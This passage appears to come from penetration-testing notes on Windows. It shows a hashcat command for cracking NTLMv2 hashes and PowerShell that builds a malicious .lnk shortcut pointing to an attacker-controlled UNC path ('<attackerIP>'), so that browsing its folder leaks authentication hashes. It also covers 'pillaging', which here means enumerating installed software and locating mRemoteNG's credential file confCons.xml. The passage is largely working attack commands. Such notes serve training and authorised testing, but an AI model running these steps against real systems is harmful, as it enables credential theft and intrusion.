#### Cracking NTLMv2 Hash with Hashcat
```cmd.exe
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

### Capturing Hashes with a Malicious .lnk File
No longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file.

#### Generating a Malicious .lnk File w/ PowerShell
```Powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```


## Pillaging

### Installed Applications

#### Identifying Common Applications
```cmd.exe
dir "C:\Program Files"
```

#### Get Installed Programs via PowerShell & Registry Keys
```PowerShell
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
```

```PowerShell
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
```

```PowerShell
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```
Program of interest in example: `mRemoteNG`

#### Discover mRemoteNG Configuration Files
```PowerShell
ls C:\Users\julio\AppData\Roaming\mRemoteNG
```
By default, the configuration file is located in `%USERPROFILE%\APPDATA\Roaming\mRemoteNG`.  `mRemoteNG` saves connection info and credentials to a file called `confCons.xml`

